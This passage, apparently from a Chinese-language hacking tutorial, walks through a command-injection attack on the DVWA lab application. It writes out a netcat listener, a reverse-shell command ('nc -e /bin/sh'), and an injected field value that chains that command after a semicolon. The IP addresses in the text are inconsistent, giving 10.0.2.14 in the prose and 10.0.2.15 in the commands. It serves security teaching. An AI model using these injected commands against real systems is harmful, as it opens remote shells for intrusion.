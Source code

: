 ![](img/d134b4bf-0891-4442-8464-3d622803dc7b.png)

它清楚地标明了输入的 `pwd` 被执行了，这意味着我们可以输入任何命令，它都会被执行。

从本书的 GitHub 仓库下载 `code-execution-reverse-shell-commands.txt` 资源文件，其中包含通过命令从目标计算机获取反向连接的命令。这里有一些命令可以帮助我们建立反向连接，所有命令都取决于编程语言。我们有 PHP、Ruby、PERL 和 BASH 的命令。

BASH 是 Linux shell 命令语言，因此所有 Unix 操作系统都能够执行 BASH 命令。`bash`命令应该在大多数基于 Unix 的系统上都能够运行。再次强调，大多数用户会使用 Python 和 Netcat。在本章中我们将使用 Netcat。

在开始之前，我们将像之前使用 Metasploit 进行多处理一样监听连接。我们可以使用多处理程序来监听连接。Netcat 只是一个工具，允许我们监听和连接计算机。使用以下命令：

```
nc -vv -l -p 8080
```

`8080`是端口，`nc`是程序，`vv`用于查看详细输出。我们可以检查输出并查看是否出现任何问题。`-l -p`命令在`8080`上用于监听。按下*Enter*，我们将能够看到以下消息：

![](img/31412be5-540e-477b-aa82-4fe91dfbfea3.png)

下一个命令将帮助我们使用 Netcat 将 Web 服务器连接回我们的计算机。因此，让我们假设 Web 服务器上有 Netcat，并检查它的工作原理。

参考`code-execution-reverse-shell-commands.txt`文件中的 Netcat 命令，其中写有所有命令。以下是命令：

```
nc -e /bin/sh 10.0.2.15 8080
```

如图所示，我们将使用`/bin/sh`，设备的当前 IP，攻击者设备，然后是端口。在我们的情况下，将是`10.0.2.14 8080`。

复制命令并将其粘贴到 DVWA 服务器的地址栏中，以便执行`pwd`命令。之前使用的命令是`10.0.2.15; pwd`。但现在让我们尝试删除`pwd`然后粘贴代码。以下是命令：

```
10.0.2.15; nc -e /bin/sh 10.0.2.15 8080
```

这个 IP 首先将 Web 服务器连接回 Kali 机器，然后再连接到攻击者机器：

![](img/b0c3cf36-3b0c-4060-be19-df5fe495a526.png)
